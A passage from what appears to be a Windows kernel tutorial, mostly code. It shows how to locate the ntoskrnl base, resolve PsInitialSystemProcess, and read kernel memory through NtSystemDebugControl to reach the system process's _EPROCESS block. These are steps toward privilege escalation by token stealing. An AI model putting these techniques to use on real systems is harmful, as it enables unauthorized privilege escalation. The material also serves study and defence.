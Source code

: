 ```
RTL_PROCESS_MODULES moduleInfo;
NtQuerySystemInformation(SystemModuleInformation, &moduleInfo, sizeof(moduleInfo), NULL);
```

We can now extract the base address of the kernel execute module:

```
ntoskrnlBase = (ULONG)moduleInfo.Modules[0].ImageBase;
```

Now we can get a handle to the module with LoadLibraryA using the extracted address.

### 3. Get PsInitialSystemProcess

With the handle to the kernel module, get the address of the PsInitialSystemProcess variable with GetProcAddress.

```
ntoskrnl = LoadLibraryA(ntoskrnlFileName);
varAddr = (ULONG)GetProcAddress(ntoskrnl, "PsInitialSystemProcess") – (ULONG)ntoskrnl + ntoskrnlBase;
```

Now that we have the address to PsInitialSystemProcess, we can read it’s memory to get the address to the _EPROCESS block for the initial system process. This is done using the NtSystemDebugControl function. The OpenRCE blog provides a wrapper function called ReadKernelMemory around NtSystemDebugControl that makes it easier to use.

```
NTSTATUS
ReadKernelMemory(IN PVOID BaseAddress, OUT PVOID Buffer, IN ULONG Length) {
    NTSTATUS Status;
    SYSDBG_VIRTUAL DbgMemory;
 
    DbgMemory.Address = BaseAddress;
    DbgMemory.Buffer = Buffer;
    DbgMemory.Request = Length;
 
    Status = NtSystemDebugControl(SysDbgReadVirtual,
        &DbgMemory,
        sizeof(DbgMemory),
        NULL,
        0,
        NULL);
    return Status;
}
```

We use this function to read the PsInitialSystemProcess variable:

```
ReadKernelMemory((PVOID)varAddr,
        &PsInitialSystemProcess,
        sizeof(PsInitialSystemProcess));
```

